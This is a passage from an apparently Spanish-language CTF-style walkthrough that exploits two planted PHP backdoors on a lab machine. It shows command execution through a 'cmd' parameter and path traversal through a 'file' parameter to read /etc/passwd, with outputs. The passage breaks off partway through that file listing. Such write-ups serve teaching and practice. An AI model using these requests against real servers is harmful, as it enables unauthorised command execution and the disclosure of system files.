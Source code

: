 Vemos que nos ha encontrado un archivo `.php` si entramos en el veremos lo siguiente:

```
cmd parameter is my friend.
```

Por lo que vemos el paraemtro va por `CMD`, por lo que vamos a probar lo siguiente:

```
URL = http://<IP>/supersecure/simple-backdoor.php?cmd=id
```

Info:

```
cmd parameter is my friend.

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Veremos que esta funcionando, por lo que vamos a listar el directorio actual:

```
URL = http://<IP>/supersecure/simple-backdoor.php?cmd=ls
```

Info:

```
mysuperbackdoor.php
simple-backdoor.php
```

Vemos que no solo esta este archivo, tambien hay otro, vamos a ver el otro.

```
URL = http://<IP>/supersecure/mysuperbackdoor.php
```

Info:

```
file parameter is my friend.
```

## Escalate user murda

Vemos que este utiliza el parametro `file` por lo que vamos a probar a leer el `passwd`.

```
URL = http://<IP>/supersecure/mysuperbackdoor.php?file=../../../../../etc/passwd
```

Info:

```
file parameter is my friend.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```